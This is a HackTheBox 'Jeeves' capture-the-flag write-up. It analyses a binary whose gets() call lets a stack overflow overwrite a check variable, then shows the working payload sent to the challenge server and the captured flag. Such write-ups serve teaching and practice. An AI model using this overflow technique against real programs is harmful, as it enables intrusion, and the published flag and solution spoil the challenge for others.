 ```yaml
---
Category:
  - Pwn
Difficulty: Easy
Platform: HackTheBox
Status: 3. Complete
tags:
  - code-review
  - reversing
---
```

>[!quote]
> *How are you doing, sir?*


# Set up

![Instance on HTB](../../zzz_res/attachments/Pasted_image_20210605173802.png)

Instance on HTB

# Information Gathering

File info:

```bash
┌──(kali㉿kali)-[~/…/HTB/challenge/pwn/jeeves]
└─$ file jeeves
jeeves: ELF 64-bit LSB pie executable, x86-64, version 1 (SYSV), dynamically linked, interpreter /lib64/ld-linux-x86-64.so.2, BuildID[sha1]=18c31354ce48c8d63267a9a807f1799988af27bf, for GNU/Linux 3.2.0, not stripped
```

Strings:

```bash
┌──(kali㉿kali)-[~/…/HTB/challenge/pwn/jeeves]
└─$ strings jeeves
/lib64/ld-linux-x86-64.so.2
libc.so.6
gets
printf
read
malloc
close
open
__cxa_finalize
__libc_start_main
GLIBC_2.2.5
_ITM_deregisterTMCloneTable
__gmon_start__
_ITM_registerTMCloneTable
u+UH
[]A\A]A^A_
Hello, good sir!
May I have your name?
Hello %s, hope you have a good day!
flag.txt
Pleased to make your acquaintance. Here's a small gift: %s
:*3$"
GCC: (Ubuntu 9.2.1-9ubuntu2) 9.2.1 20191008
crtstuff.c
...
```

## Decompiled code

Ghidra decompiled code:

```bash
undefined8 main(void)
{
  char name [44];
  int local_1c;
  void *local_18;
  int n;
  
  n = -0x21523f2d;
  printf("Hello, good sir!\nMay I have your name? ");
  gets(name);
  printf("Hello %s, hope you have a good day!\n",name);
  if (n == 0x1337bab3) {
    local_18 = malloc(0x100);
    local_1c = open("flag.txt",0);
    read(local_1c,local_18,0x100);
    printf("Pleased to make your acquaintance. Here\'s a small gift: %s\n",local_18);
    close(local_1c);
  }
  return 0;
}
```

# The Bug

```bash
┌──(kali㉿kali)-[~/…/HTB/challenge/pwn/jeeves]
└─$ python -c 'print "A" * 80' | ./jeeves
Hello, good sir!
May I have your name? Hello AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA, hope you have a good day!
zsh: done                python -c 'print "A" * 80' |
zsh: segmentation fault  ./jeeves
```

# Exploitation

```bash
┌──(kali㉿kali)-[~/…/HTB/challenge/pwn/jeeves]
└─$ python -c 'import struct; print struct.pack("I",0x1337bab3)*16' | ./jeeves
Hello, good sir!
May I have your name? Hello 7777777777777777, hope you have a good day!
Pleased to make your acquaintance. Here's a small gift: this is the flag
```

```bash
┌──(kali㉿kali)-[~/…/HTB/challenge/pwn/jeeves]
└─$ nc 139.59.167.178 31192 < input.txt 
Hello, good sir!
May I have your name? Hello 7777777777777777, hope you have a good day!
Pleased to make your acquaintance. Here's a small gift: HTB{w3lc0me_t0_lAnd_0f_pwn_&_pa1n!}
```

# Flag

>[!success]
>`HTB{w3lc0me_t0_lAnd_0f_pwn_&_pa1n!}`